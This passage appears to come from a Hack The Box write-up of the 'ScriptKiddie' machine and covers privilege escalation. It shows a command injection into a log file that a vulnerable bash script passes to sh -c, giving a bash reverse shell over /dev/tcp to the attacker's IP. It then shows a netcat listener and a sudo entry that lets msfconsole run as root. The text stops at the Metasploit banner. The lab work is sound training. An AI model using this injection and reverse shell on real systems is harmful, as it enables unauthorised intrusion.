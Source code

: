 Namely this last point was of importance, one user I already owned (kid) the last one is root. An ls -al in /home revealed a user called pwn. This users home folder contains one of the scripts used in the webserver to run the NMAP command:

```
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi

```
Long story short; this script sets a variable for a file called /home/kid/logs/hackers which is assigned to user kid and group pwn. the script navigates to the folder /home/pwn, reads the log variable, splits it on space as delimiter and parses the third collumn. Executes the nmap command and if there is an error the output get thrown into the void @ /dev/null. Last but ot least it clears the contents of /home/kid/logs/hackers.

So now I gotta find a way to exploit the way it reads the file called hackers. Maybe I am able to start a reverse shell by concatnating commands. So I did this as user kid:
```
echo "  ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.35/6666 0>&1' #" > /home/kid/logs/hackers

```

Set up a netcat listening session and just like that I had a shell as user pwn:

```
root@kali:/home/kali/Desktop/HTB/machines/scriptkiddie# nc -lvp 6666
listening on [any] 6666 ...
10.129.98.83: inverse host lookup failed: Unknown host
connect to [10.10.14.35] from (UNKNOWN) [10.129.98.83] 53454
bash: cannot set terminal process group (830): Inappropriate ioctl for device
bash: no job control in this shell
pwn@scriptkiddie:~$ 


```

run metasploit and ran sudo -L:

```
msf6 > sudo -l                                                                 
sudo -l
[*] exec: sudo -l

Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
msf6 > exit()                                                                  
exit()
[-] Unknown command: exit().
msf6 > exit                                                                    
exit
pwn@scriptkiddie:~$ sudo /opt/metasploit-framework-6.0.9/msfconsole
sudo /opt/metasploit-framework-6.0.9/msfconsole
                                                  
                                   ___          ____
                               ,-""   `.      < HONK >
                             ,'  _   e )`-._ /  ----
```